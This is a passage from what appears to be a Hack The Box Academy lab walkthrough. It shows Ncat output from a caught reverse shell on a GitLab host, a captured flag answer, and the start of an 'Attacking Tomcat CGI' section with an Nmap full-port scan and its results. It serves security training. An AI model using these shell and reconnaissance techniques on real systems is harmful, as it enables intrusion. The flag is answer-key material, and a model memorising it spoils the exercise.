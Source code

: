 ```
Ncat: Connection from 10.129.106.176.
Ncat: Connection from 10.129.106.176:57096.
bash: cannot set terminal process group (1289): Inappropriate ioctl for device
bash: no job control in this shell

git@app04:~/gitlab-workhorse$ cat flag_gitlab.txt

s3cure_y0ur_Rep0s!
```

Answer: `s3cure_y0ur_Rep0s!`

# Attacking Tomcat CGI

## Question 1

### "After running the URL Encoded 'whoami' payload, what user is tomcat running as?"

After spawning the target machine, students first need to use `Nmap` to confirm the target is running Tomcat:

Code: shell

```shell
nmap -p- -sC -Pn STMIP --open 
```

```
┌─[us-academy-2]─[10.10.15.12]─[htb-ac-594497@htb-geylz278ib]─[~]
└──╼ [★]$ nmap -p- -sC -Pn 10.129.205.30 --open

Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-30 15:22 BST
Stats: 0:00:53 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 69.35% done; ETC: 15:23 (0:00:23 remaining)
Nmap scan report for 10.129.205.30
Host is up (0.036s latency).
Not shown: 59487 closed tcp ports (conn-refused), 6035 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   2048 ae:19:ae:07:ef:79:b7:90:5f:1a:7b:8d:42:d5:60:99 (RSA)
|   256 38:2e:76:cd:05:94:a6:e7:17:d1:80:81:65:26:25:44 (ECDSA)
|_  256 35:09:69:12:23:0f:11:bc:54:6f:dd:f7:97:bd:61:50 (ED25519)
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
8009/tcp  open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Host script results:
| smb2-time: 
```